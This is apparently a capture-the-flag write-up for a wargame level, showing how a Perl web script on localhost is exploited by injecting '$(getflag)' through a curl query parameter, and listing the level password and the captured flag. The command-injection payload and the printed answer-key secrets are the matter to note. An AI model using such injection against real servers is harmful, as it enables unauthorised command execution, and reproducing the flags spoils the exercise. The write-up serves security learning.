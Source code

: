 # level04

## Vulnerability: Unchecked input leading to code injection

level04's password: `qi0maab88jeaj46qoumi7maus`

we got some intel from level00:

```bash
dr-xr-x---  2 flag04 level04  33 Mar 12  2016 level04
/var/www/level04
/rofs/var/www/level04
```

1. examinate existing files and permissions

```bash
ls -la
cat level04.pl
```

seems to indicate that a server is running on localhost:4747, and that the server is running as flag04

2. search for an apache webserver and examine it

```bash
service apache2 status
cat /etc/apache2/sites-enabled/level05.conf
cat /var/www/level04/level04.pl
```

shows that the root of the webserv is containing level04.pl and that the process is running as flag04

4. test the webserver for command injection

```bash
curl localhost:4747?x=exploit
```

prints `exploit` in terminal, meaning that we might inject some code

5. inject some code to pwn the flag

```bash
curl localhost:4747?x='$(getflag)'
```

gives flag: `ne2searoevaevoem4ov4ar8ap`
